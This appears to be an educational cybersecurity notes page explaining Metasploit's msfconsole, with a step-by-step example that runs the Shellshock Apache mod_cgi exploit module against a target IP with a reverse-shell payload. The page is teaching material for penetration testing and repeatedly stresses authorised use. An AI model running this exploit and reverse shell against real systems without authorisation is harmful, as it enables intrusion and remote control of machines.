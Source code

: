 # msfconsole


# 👉 Overview

---

### 👀 What ?

msfconsole is a command-line interface that provides a user-friendly environment for Metasploit Framework, a tool for developing and executing exploit code against a remote target machine. msfconsole provides an all-in-one centralized console and allows you to create highly complex and sophisticated attacks in real-time.


### 🧐 Why ?

Understanding msfconsole is crucial because it is one of the most powerful tools for penetration testing. It allows cybersecurity professionals to test their systems' vulnerabilities and understand how attackers might exploit them. It's also widely used in ethical hacking to ensure the security of an environment by identifying potential vulnerabilities.


### ⛏️ How ?

To use msfconsole, you first need to start it by typing 'msfconsole' in your terminal. Once it's launched, you can search for exploits, use these exploits against your target, and then use post exploitation modules to gather more information or gain more control over the system. Remember to always use this tool ethically and legally.


### ⏳ When ?

msfconsole became a prevalent tool in the cybersecurity field around 2004 when the Metasploit Project was created. Since then, it has been widely used by cybersecurity professionals around the world.


# ⚙️ Technical Explanations

---

msfconsole is an interface that enables the user to select an exploit and a corresponding payload. The exploit is a specialized piece of code designed to take advantage of a specific vulnerability found within a system. Once the vulnerability is exploited, the payload, which is another piece of code, is delivered and executed within the compromised system. The payload could perform various actions, such as creating a backdoor or extracting valuable data.

In the initial stages, msfconsole communicates with the target system in an attempt to deliver and execute the exploit. If the exploit is successful, it means that the system's vulnerability has been taken advantage of, and the payload is then delivered.

The payload, once executed, gives the user a degree of control over the system, which varies based on the nature of the payload. Often, it provides a shell that allows the user to execute further commands within the system. It's important to note that the use of msfconsole should always be ethical and abide by legal guidelines.

Here's a detailed example of using msfconsole:

1. First, start msfconsole by typing `msfconsole` into your terminal and pressing enter.

```bash
$ msfconsole

```

1. Once msfconsole is launched, you can search for exploits using the `search` command. For instance, if you're looking for exploits related to a specific software like Apache, you can type `search apache`.

```bash
msf6 search apache

```

1. To use an exploit, such as the "Apache mod_cgi Bash Environment Variable Code Injection" exploit, type `use exploit/apache/http/apache_mod_cgi_bash_env_exec`.

```bash
msf6 use exploit/apache/http/apache_mod_cgi_bash_env_exec

```

1. Now, you need to set the target by typing `set RHOSTS [target IP]`. Replace `[target IP]` with the IP address of the target system.

```bash
msf6 exploit(apache/http/apache_mod_cgi_bash_env_exec) set RHOSTS 192.168.1.10

```

1. Next, you'll need to select a payload. For example, let's use a reverse shell payload with `set PAYLOAD linux/x86/shell_reverse_tcp`.

```bash
msf6 exploit(apache/http/apache_mod_cgi_bash_env_exec) set PAYLOAD linux/x86/shell_reverse_tcp

```

1. Set the local host to your own IP using the `set LHOST [your IP]` command.

```bash
msf6 exploit(apache/http/apache_mod_cgi_bash_env_exec) set LHOST 192.168.1.20

```

1. Finally, execute the exploit using the `exploit` command.

```bash
msf6 exploit(apache/http/apache_mod_cgi_bash_env_exec) exploit

```

If the exploit is successful, you should now have a shell on the target system, and you can execute commands within the compromised system.

Remember that this is a simplified example and actual exploitation would require a deep understanding of the target system, the selected exploit, and the payload. Always make sure that you have permission to run such activities and are doing so for ethical purposes, such as penetration testing or vulnerability assessment.

# 🖇️ Références

---